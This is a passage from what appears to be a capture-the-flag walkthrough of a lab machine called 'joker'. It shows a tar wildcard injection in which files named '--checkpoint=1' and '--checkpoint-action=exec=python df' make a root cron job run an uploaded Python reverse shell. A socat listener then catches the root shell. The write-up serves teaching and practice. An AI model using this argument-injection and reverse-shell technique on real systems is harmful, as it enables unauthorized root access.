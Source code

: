 First, I’ll need a reverse shell. I’ll copy the UDP Python shell to the box using `scp`:

```

root@kali# scp -i ~/keys/ed25519_gen rev.py alekos@10.10.10.21:/home/alekos/development/df   
rev.py                                        100%  781    63.4KB/s   00:00    

```

I’ll set it executable, and test it just by running it to ensure I get a shell:

```

alekos@joker:~$ chmod +x development/df 
alekos@joker:~$ development/df

```

I do.

#### Exploit

I’ll go into the `backup` directory and use `touch` to create two files. The first is `--checkpoint=1`. This will trigger the checkpoint action on the first record added to the archive:

```

alekos@joker:~/development$ touch -- --checkpoint=1   

```

The second is `--checkpoint-action=exec=python df`. This will tell `tar` to run `df` when it reaches a checkpoint:

```

alekos@joker:~/development$ touch -- '--checkpoint-action=exec=python df'

```

In both cases, I use `--` to tell the shell that nothing after that is an argument, but a filename. It’s a good shorthand to create weird files, and a good protection that if used in this cron, would prevent this method of exploitation.

#### Shell

When the five minute mark rolls around, I get a shell on `socat`:

```

root@kali# socat file:`tty`,raw,echo=0 udp-listen:443
root@joker:/home/alekos/development# id
uid=0(root) gid=0(root) groups=0(root)

```

### Exploit #3 - Break Cron

